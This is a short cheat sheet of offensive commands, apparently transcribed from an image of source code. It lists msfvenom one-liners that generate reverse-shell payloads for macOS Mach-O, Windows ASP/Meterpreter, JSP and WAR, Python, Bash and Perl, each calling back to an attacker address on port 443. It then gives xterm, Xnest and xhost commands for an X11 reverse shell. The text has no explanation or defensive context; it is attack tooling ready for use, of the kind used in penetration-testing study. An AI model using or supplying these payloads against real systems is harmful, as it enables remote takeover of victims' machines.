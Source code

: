 `msfvenom -p osx/x86/shell_reverse_tcp LHOST="1.1.1.1" LPORT=443 -f macho > shell.macho`

`msfvenom -p windows/meterpreter/reverse_tcp LHOST="1.1.1.1" LPORT=443 -f asp > shell.asp`

`msfvenom -p java/jsp_shell_reverse_tcp LHOST="1.1.1.1" LPORT=443 -f raw > shell.jsp`

`msfvenom -p java/jsp_shell_reverse_tcp LHOST="1.1.1.1" LPORT=443 -f war > shell.war`

`msfvenom -p cmd/unix/reverse_python LHOST="1.1.1.1" LPORT=443 -f raw > shell.py`

`msfvenom -p cmd/unix/reverse_bash LHOST="1.1.1.1" LPORT=443 -f raw > shell.sh`

`msfvenom -p cmd/unix/reverse_perl LHOST="1.1.1.1" LPORT=443 -f raw > shell.pl`

# Xterm:

`xterm -display 1.1.1.1:1`
`Xnest :1`
`xhost +targetip`

